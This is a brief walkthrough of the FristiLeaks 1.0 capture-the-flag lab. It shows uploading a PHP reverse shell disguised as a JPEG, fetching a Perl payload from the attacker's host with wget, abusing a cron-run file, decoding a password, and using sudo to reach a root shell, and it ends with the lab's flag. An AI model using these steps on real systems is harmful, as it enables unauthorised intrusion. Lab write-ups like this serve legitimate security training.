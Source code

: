 By dirb and decode:   
eezeepz   
keKkeKKeKKeKkEkkEk   
then upload:   
http://192.168.139.145/fristi/uploads/revshell.php.jpg  			

```shell
bash-4.1$ cd /home/eezeepz
bash-4.1$ ls -aul
bash-4.1$ cat notes.txt
bash-4.1$ wget 192.168.139.129/perl.pl
Get admin ID:
bash-4.1$ echo "/usr/bin/perl /tmp/perl.pl" > /tmp/runthis
[admin@localhost /]$ whoami
whoami
admin
```shell
Find out the txt:
=RFn0AKnlMHMPIzpyuTI0ITG
Need make a script:
decrypt.py
----------------------------------------------------
import base64, codecs,sys
def decodeString(str):
	rot13crypt=codecs.decode(str[::-1], 'rot13')
	return base64.b64decode(rot13crypt)
print decodeString(sys.argv[1])
----------------------------------------------------

Optional:
```shell
bash-4.1$ echo "/home/admin/chmod 777 /home/admin" > /tmp/runthis
bash-4.1$ cd /tmp
cd /tmp
bash-4.1$ ls
ls
cronresult  runthis
bash-4.1$ cat cronresult
bash-4.1$ cd /home/admin
```
Decrypt password:

LetThereBeFristi!

```shell
sudo -u fristi ./doCom chmod -R 777 /root
```
or
```shell
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```
Final:
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
